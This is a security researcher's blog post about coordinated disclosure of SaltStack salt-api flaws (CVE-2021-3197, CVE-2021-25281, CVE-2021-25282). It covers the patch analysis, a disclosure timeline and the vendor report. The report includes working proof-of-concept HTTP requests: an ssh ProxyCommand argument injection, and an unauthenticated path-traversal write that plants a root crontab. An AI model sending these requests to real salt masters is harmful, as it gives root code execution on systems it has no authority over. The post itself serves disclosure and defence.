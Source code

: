 ```yaml
---
title:  "SaltStack API vulnerabilities"
layout: post
date:   2021-03-03
permalink: posts/saltapi-vulns
---
```



**Details on CVE-2021-3197, CVE-2021-25281 and CVE-2021-25282**

In November 2020 after seeing a pre-auth RCE (CVE-2020-16846, CVE-2020-25592) [get dropped](https://www.thezdi.com/blog/2020/11/24/detailing-saltstack-salt-command-injection-vulnerabilities) for Salt API, I wanted to find my own. 

[Looking at the patch for CVE-2020-16846](https://gitlab.com/saltstack/open/salt-patches/-/blob/master/patches/2020/09/02/3002.patch#L32) you can see they have added a `_split_cmd` function that splits the arguments into a list, and removed the use of the `shell=True` option. While this was effective at preventing command injection through shell metacharacters, it still allowed an attacker to specify arbitrary arguments to the ssh command. By adding an SSH option after any of the POSTed ssh parameters - e.g.  `ssh_port=2222%09-o%20ProxyCommand="touch%20/tmp/rce"`, the argument injection could be turned into arbitrary command execution. The %09 is a tab character is used for seperation, however a %20 works just as well. This ended up as CVE-2021-3197. The patch release adds [a case sensitive check for "ProxyCommand"](https://github.com/saltstack/salt/blob/08fe46365f92583ea875f9e4a8b2cb5305b34e4b/salt/client/ssh/client.py#L72) in the arguments passed to SSH.

Unfortunately the November fix for CVE-2020-25592 made this call post authentication only, so I had a look through the other "clients" that can be passed to the /run endpoint. 
It turned out that `wheel_async` can still be used pre-authentication (assigned CVE-2021-25281). This gives the ability to run arbitrary wheel modules. After a quick look through these, I found the `pillar_roots.write` function could be used to write arbitrary files on the host through a path traversal (assigned CVE-2021-25282).  Interestingly, this is very similar to the function [file_roots.write](https://github.com/saltstack/salt/blob/08fe46365f92583ea875f9e4a8b2cb5305b34e4b/salt/wheel/file_roots.py#L98), which (I later realised) was fixed in `CVE-2020-11652`. The pillar_roots variant remained unfixed until I reported it.

Since the default Ubuntu install of Salt (in my test env) ran as root, the easiest way to turn this to code execution was to write a crontab. I promptly dusted my hands and sent the vulnerability report off to Salt. However after reviewing the patch notes I discovered there was an even better way to exploit it - CVE-2021-25283 discovered by Tencent Yunding Security Lab. More details on their method are [here](https://cloud.tencent.com/developer/article/1794370). Very nice!

## Timeline
It took a few hours total to find these after looking at patches for the last set of vulnerabilities. I reported them to Salt on 27/11/2020. Salt aimed for a Feb 4 release, however this slipped and they ended up releasing the patches and an [announcement](https://saltproject.io/security_announcements/active-saltstack-cve-release-2021-feb-25/) on the 25th of February, roughly 90 days after I reported the vulnerabilities.


## Details:

Here's a copy of the report I sent to Salt.

```
Authenticated argument injection in netapi salt-api SSH client

The fix for CVE-2020-16846 escapes the input to the netapi ssh client. However an attacker can still inject arguments using the %09 (tab) character, which are passed through to SSH invocations. For example, the following request will create the "/tmp/rce" file on the salt master. It does require valid credentials, which I have provided in the request.


POST /run HTTP/1.1
Host: 192.168.200.129
Content-Type: application/x-www-form-urlencoded
Content-Length: 165

client=ssh&roster=&tgt=*&fun=test.ping&ssh_user=test123&ssh_port=2222%09-o%20ProxyCommand="touch%20/tmp/rce"&ssh_priv=as`id`df&eauth=pam&username=user&password=user

This ends up executing the command :

ssh 192.168.200.131 -o KbdInteractiveAuthentication=no -o PasswordAuthentication=yes -o GSSAPIAuthentication=no -o ConnectTimeout=65 -o Port=2222 -o ProxyCommand=touch /tmp/rce -o IdentityFile=asdf -o User=user /bin/sh  << 'EOF' set -e set -u

which executes the command through the ProxyCommand argument to SSH. Other parameters passed through are also vulnerable such as ssh_priv and ssh_user, as long as they are not defined already in the roster file. Exploiting this also requires at least one roster host to be defined.




==================================

Unauthenticated arbitrary file write in salt-api

The wheel_async client does not check for authentication when it is called. This allows an arbitrary file write in conjunction with a path traversal in the pillar_roots.write function. As the salt-master runs as root by default it can be used to write a new crontab file, which will execute automatically on most linux systems. 

POC:
--

POST /run HTTP/1.1
Host: 192.168.200.129
Content-Length: 187
Content-Type: application/json;charset=UTF-8

{"token":"1","client":"wheel_async","fun":"pillar_roots.write",
"arg":[],
"kwarg": {"data":"* * * * * root /bin/bash -c \"touch /tmp/rce4\"\n","path":"../../../../etc/cron.d/saltrce4"}}


--
After a minute, check in /tmp/ for the rce4 file, which should have been created by the crontab. There are probably other ways to exploit this file write to obtain code execution.


```

